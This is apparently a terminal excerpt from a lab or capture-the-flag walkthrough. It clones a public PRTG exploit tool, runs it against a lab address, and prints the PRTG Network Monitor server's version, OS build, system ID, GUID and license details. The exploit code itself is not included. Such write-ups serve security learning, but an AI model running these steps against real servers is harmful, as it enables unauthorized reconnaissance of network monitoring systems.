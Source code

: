 ```
┌──(thatvirdiguy㉿kali)-[~]
└─$ git clone https://github.com/titanssystems/PRTG-Exploit.git                                                           
Cloning into 'PRTG-Exploit'...
remote: Enumerating objects: 11, done.
remote: Counting objects: 100% (11/11), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 11 (delta 1), reused 3 (delta 0), pack-reused 0
Receiving objects: 100% (11/11), done.
Resolving deltas: 100% (1/1), done.

┌──(thatvirdiguy㉿kali)-[~]
└─$ cd PRTG-Exploit 
                                                                                                                                                                                             
┌──(thatvirdiguy㉿kali)-[~/PRTG-Exploit]
└─$ ls
PRTG.py  README.md
                                                                                                                                                                                             
┌──(thatvirdiguy㉿kali)-[~/PRTG-Exploit]
└─$ python3 PRTG.py --help                                               
usage: PRTG.py [-h] [--url URL] [--count COUNT]

Get Information From PRTG Server.

optional arguments:
  -h, --help     show this help message and exit
  --url URL      The URL of the Server
  --count COUNT  Number of requests
  
┌──(thatvirdiguy㉿kali)-[~/PRTG-Exploit]
└─$ python3 PRTG.py --url http://10.10.10.152/
serverhttpurl :  http://netmon
dnsname :  netmon
edition :  PRTG Network Monitor Freeware (Trial Expired) <b class='edition-red'>(expired 11/23/2018)</b>
activated :  1
version :  18.1.37.13946
activationcolor :  Green
activesessions :  (Tag activesessions unknown)
windowsversion :  Microsoft Windows Server 2016 Standard (10.0 Build 14393), 1 CPUs (Single x64 Model 1 Step 2), code page "Windows-1252", on VMware
systemid :  SYSTEMID-FXTGO6D2-5I6IR6YQ-VVF4CU5P-ORLDXP4G-UUUC4CQA
GUID :  050A8AC5-586A-41AC-9581-4CA194FF1FDC
prtghost :  9AC054D7
loadvaluelookups :  
activationtime :  2/2/2019 11:15:47 PM
maintenancedate :  (Visible for system administrators only)
startinfo :  12:56:42 AM Init License
probes :  <tr><td width="99%"><p><b>Probe #1 "Local Probe"</b></p><p>connected from: 127.0.0.1:49674<br>Last Data: 2/23/2022 1:14:17 AM (1 sec ago) (Eastern Standard Time)<br>.NET Framework Support: Installed: v4\Client (4.6.01586), v4\Full (4.6.01586), v4.0\Client (4.0.0.0)</p></td><td></td></tr>
messagecount :  337
lastsync :  2/23/2022 12:57:33 AM (Nothing to do, Timing:16/0/0/267/845/1656)
rawbuffercount :  0 (OK)
warnings :  None
probewarnings :  []
repruncount :  0
editiontype :  F
daysinstalled :  1117
commercialdaysleft :  -999999
changepassword :  
licensehash :  
cpuload :  92%
```